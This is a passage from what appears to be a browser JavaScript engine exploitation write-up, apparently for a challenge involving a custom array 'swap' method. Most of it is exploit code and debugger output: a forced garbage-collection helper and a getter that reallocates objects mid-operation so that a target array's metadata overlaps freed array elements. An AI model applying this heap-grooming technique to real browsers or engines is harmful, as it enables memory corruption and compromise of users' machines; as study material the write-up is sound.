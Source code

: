 ```js
To:

{
  "type": "int32",
  "value": 6
}
From:

{
  "type": "int32",
  "value": 5
}
```

Obviously the two objects perfectly overlap each other, which does not help much. What we do now is to introduce some offsets such that some of the target object's metadata lie in the original `elements` of `a`:

```js
/* force trigger garbage collection */
function gc() {
  new ArrayBuffer(0x7fe00000);
}

function exp() {
  gc();
  let a = [1, 2, 3, 4, 5, 6];
  // reallocate the array to introduce some offset
  for (let i = 7; i <= 14; i++) {
    a.push(i);
  }
  dumpValue(a);
  let padding, target;
  Object.defineProperty(a, 'from', {
    get: function() {
      gc();
      padding = []; // introduce padding
      target = [0x11, 0x12, 0x13]; 
      dumpValue(padding);
      dumpValue(target);
      return 1;
    }
  });
  a.to = 2;
  a.swap();
}
exp();
```

```js
/* a */
{
  "type": "object",
  "address": "(JSObject*)0x35701c900020",
  // ...
}
Current object: 0x35701c900020
Current length/capacity: 14 / 14
elements: 0x35701c900088 // <-- index 0 of a

/* padding object */
{
  "type": "object",
  "address": "(JSObject*)0x35701c900020",
  // ...
```